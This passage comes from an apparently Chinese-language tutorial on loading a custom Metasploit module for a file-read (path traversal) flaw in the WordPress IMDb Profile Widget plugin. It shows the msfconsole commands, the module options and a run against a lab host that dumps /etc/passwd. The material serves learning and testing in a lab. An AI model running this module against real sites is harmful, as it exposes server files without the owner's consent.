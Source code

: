 * * *

前面提到，msf有专门的目录`~/.msf7/modules/`来存放自己编写的module，这里对照着`auxiliary/scanner/http/wp_dukapress_file_read`，创建目录

```
mkdir -p  ~/.msf7/modules/auxiliary/scanner/http/

```

将代码保存`~/.msf7/modules/auxiliary/scanner/http/`目录下，文件名为`wp_imdb_profile_widget_file_read.rb`，重启msfconsole，加载自定义module，执行

```
msfconsole -m ~/.msf7/modules

```

查看下插件是否已经被load

```
msf > grep "imdb" search wordpress

auxiliary/scanner/http/wp_imdb_profile_widget_file_read                         normal     WordPress IMDb Profile Widget Plugin File Read Vulnerability

```

对前面的漏洞环境进行测试，这里wordpress的ip为`192.168.1.191`

```
msf > use auxiliary/scanner/http/wp_imdb_profile_widget_file_read

msf auxiliary(wp_imdb_profile_widget_file_read) > show options 

Module options (auxiliary/scanner/http/wp_imdb_profile_widget_file_read):

   Name       Current Setting  Required  Description

---

   DEPTH      7                yes       Traversal Depth (to reach the root folder)

   FILEPATH   /etc/passwd      yes       The path to the file to read

   Proxies                     no        A proxy chain of format type:host:port,type:host:port

   RHOSTS                      yes       The target address range or CIDR identifier

   RPORT      80               yes       The target port

   TARGETURI  /                yes       The base path to the wordpress application

   THREADS    1                yes       The number of concurrent threads

   VHOST                       no        HTTP server virtual host

msf auxiliary(wp_imdb_profile_widget_file_read) > set rhosts 192.168.1.191

rhosts => 192.168.1.191

msf auxiliary(wp_imdb_profile_widget_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

```